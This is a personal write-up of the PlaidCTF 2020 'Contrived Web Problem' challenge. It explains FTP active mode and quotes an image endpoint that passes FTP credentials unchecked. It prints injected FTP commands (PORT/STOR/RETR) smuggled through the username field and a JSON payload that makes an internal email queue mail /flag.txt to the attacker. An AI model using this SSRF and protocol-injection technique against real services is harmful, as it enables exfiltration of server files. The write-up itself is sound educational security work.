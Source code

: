 ```yaml
---
title: "PlaidCTF 2020: Contrived Web Problem"
date: 2020-04-28T00:48:12-06:00
draft: false
author: "Jamvie"
---
```



This was a CTF I unfortunately didn't have the time for, as I was busy doing finals in April :(. My team let me know about this cool and unique problem, and I'm glad they did! 
<!--more-->


This was a journey in understanding internet protocols that deepened my knowledge of them to completely new levels, so I'm really grateful I got the chance to try this problem out - even though I tried it after the CTF ended :P



Let's Begin!
----

This problem really holds up to its name. The website is simple - you have the option to login or register as a new user. 

![CWP01](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CWP01.png)

Uniquely, we are given the source code for the problem. The source code shows us that the program has 6 services:

```
\services
    \api 
    \email (email server, sends emails based on rabbitmq queue)
    \ftp
    \postgres (database)
    \rabbit (email queue, will send requests to the email server)
    \server
...
```

Checking out the code, I see that ```flag.txt``` is actually mentioned. It's in the services dockerfile, which is only used by ```api```, ```email``` and ```server``` services. So, the vulnerability probably is within one of these services. 

I checked out ```api``` first - and I see that the only protocols that it allows are HTTP, HTTPS, and FTP. Aside from the FTP protocol, the other 2 are pretty standard protocols to see in APIs. 

Looking at ```email``` next, which uses [nodemailer](https://nodemailer.com/about/). I'm not too familiar with it, so I check out its documentation: 

![CWP02](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CWP02.png)

This seems like a good loophole to exploit - we just need to specify the filepath and nodemailer will send an email with an attachment of whatever file we specified by the filepath, so we can exploit nodemailer's same origin policy. Since the rabbitmq server is the email server's queue, we will send a rogue email request into rabbitmq's queue to serve up to the email server, which will tell it to email us the flag!

Now the hard part - how _do we_ ask the server? How do we send a request to the server to send us the email with the flag as an attachment? 

I spent a long time trying to figure out how to send a rogue request to the rabbitmq server that will send us the email we want. I spent hours just browsing through the source code, not really paying attention... 

Until I came across this piece of code in the ```api/index.ts``` file: 

```js
    app.get("/image", async (req, res) => {
        let { url } = req.query;
        if (typeof url !== "string") {
            return res.status(500).send("Bad body");
        }

        let parsed = new URL(url);

        let image: Buffer;
        if (parsed.protocol === "http:" || parsed.protocol === "https:") {
            const imageReq = await fetch(parsed.toString(), { method: "GET" });
            image = await (imageReq as any).buffer();
        } 
        
         //THIS PART HERE!
        else if (parsed.protocol === "ftp:") {
            let username = decodeURIComponent(parsed.username);
            let password = decodeURIComponent(parsed.password);
            let filename = decodeURIComponent(parsed.pathname);
            let ftpClient = await connectFtp({
                host: parsed.hostname,
                port: parsed.port !== "" ? parseInt(parsed.port) : undefined,
                user: username !== "" ? username : undefined,
                password: password !== "" ? password : undefined,
            });
            image = await ftpClient.get(filename);
        } else {
            return res.status(500).send("Bad image url");
        }
                if (!isPNG(image)) {
            return res.status(500).send("Bad image (not a png)");
        }

        res.type(".png").status(200).send(image);
    })

    app.listen("4101");

```
Image: the profile picture we would upload when we register as a new user. For HTTP and HTTPS protocols it's a simple GET method, not much to do there. But for FTP? 
It asks for the username, password and filename, _unchecked_, then asynchronously asks the server for the image that matches the filename that we specified. 
FTP is a text-based protocol, and since username and password fields are passed to it unchecked, we could definitely inject some protocol commands, custom data (something like ```{to: "email@example.com", attachments:[{path:"/flag.txt"}]}```), and make FTP send requests that were never intended to be sent. 

Here's something I learned in my internet computing class about the FTP protocol: FTP connections have two modes : "Active" and "Passive". I'll give a heavily truncated explanation of the two modes (if you're interested in learning mroe about the FTP protocol, check out the [RFC specifications on it](https://tools.ietf.org/html/rfc959)):

- In active mode, the client will specify the IP of the destination to the server. The FTP server will then send the files to the specified IP. The client establishes the communication channel, tells the server the address to send data to, and the server will then open a data channel to the address. 

- In passive mode, the server tells the client where the files will be sent to. In this case, the client will then have to open the data channel as well to get the files. By default, applications running FTP will run on passive mode.


The difference in active and passive really lies in the ```RETR``` command in the FTP specifications: active-mode ```RETR``` makes the client stipulate the destination IP, and passive-mode ```RETR``` makes the server stipulate it.

So for this challenge, we can make the FTP client specify the rabbitmq server as the destination IP, and use ```RETR``` to make the FTP server send data to rabbitmq. 

And since the FTP protocol for this application handles for the uploading and retrieval of profile pictures, we just need to hide our payload (which would ask the rabbitmq server to send an email with the flag.txt file in it to us) in our profile picture, specify FTP to operate on active (using ```PORT``` command), and use the ```RETR``` command to let the FTP server send our payload to the rabbitmq server! 

Okay, I've explained alot here. This is the attack plan:

- Craft a payload that will tell the rabbitmq email queue server to email to us, with flag.txt as the attachment. Hide it in the profile picture (make sure its a png). Upload whatever picture it is as our profile picture. 

Here's the payload I crafted (a classic SSRF):
```
{"to":"yourEmailGoesHere@example.com","text":"Hello would you like a flag","attachments":[{"path":"/flag.txt"}]}
```

- Through the username field, input several FTP commands to make the FTP server send our payload to the rabbitmq server. Here, I have made a file called "payload.txt" that has the post request data with the payload in it:

```
PASS blah
PORT 255,255,255,255,80
STOR payload.txt
PORT 172,32,56,72,0, 15672      <-----rabbitmq server and port
RETR payload.txt
```

- Hopefully, the rabbitmq server will send us an email!

```
PCTF{not_that_contrived_i_guess}
```

NOTE: Doing it this way means the FTP server was establishing a connection with the rabbitmq one. However, multiple times I tried this the TCP connection would close immediately after I send my request! I worked around this by sending in a bunch of garbage in my payload.txt file alongside the actual payload, so that at least the TCP connection would have to spend time sending all of that data(think: an unending stream of AAAAAs), and persist long enough for the reponse to be recieved. 

This was a fun way to learn how FTP servers work and how protocols of the internet operate! I'm upset that I didn't have the time to participate when it happened, but nonetheless this was a great challenge :)

Jam
